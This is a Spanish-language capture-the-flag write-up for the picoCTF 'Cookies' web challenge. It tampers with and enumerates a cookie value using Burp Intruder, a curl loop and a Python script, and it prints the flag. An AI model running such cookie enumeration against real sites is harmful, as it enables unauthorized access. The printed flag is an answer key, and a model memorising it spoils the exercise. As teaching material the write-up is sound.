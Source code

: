 
## Reto
Cookies

## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solucion
- al entrar a la pagina solo nos muestra una barra de texto que pregunta por galletas
- con cookie editos cambio el -1 guardado a 1, aunque si me da una respuesta no es la bandera y hay muchas posibles cookies
- Usando proxyfoxy y burpsuite cuando me da la respuesta, lo mando a intruder
- cambio donde dice: `Cookie: name=1` y borro el 1 y doy click donde dice add.
- en payload pongo de tipo numero, que va del 1 al 30; de 1 en 1, y empiezo el ataque
- una vez que me de los resultados busco en cada una las respuestas que me manda y en la 18 veo la bandera: **picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}**

### ALT
- des consola puedo poner esto para que me regrese la respuesta con una cookie: `curl http://mercury.picoctf.net:17781/check -H "Cookie: name=1`
- hago un ciclo para que me de todas las respuestas dentro del ciclo pero lo filtro con grep para que solo me regrese alguna que contenga "pico"
- for i in {1..30}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep pico  `
            `<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>`

### ALT 2

- Usando un script de python para hacer lo mismo que en ALT 1:

import requests # libreria para realizar peticiones
import re # libreria para expresiones regulares

url = "http://mercury.picoctf.net:17781/check"
for i in range(20):
        cookie = {'name':'{}'.format(i)} # crea la cookie
        r = requests.get(url, cookies=cookie) # hace la peticion con la cookie modificada
        if 'pico' in r.text:
                flag = re.findall('picoCTF{.*?}',r.text)[0] # substrae la bandera de la respuesta
                print(flag)
## Notas
- un proxie es un intermedio entre el navegador y el servidor
## Referencias

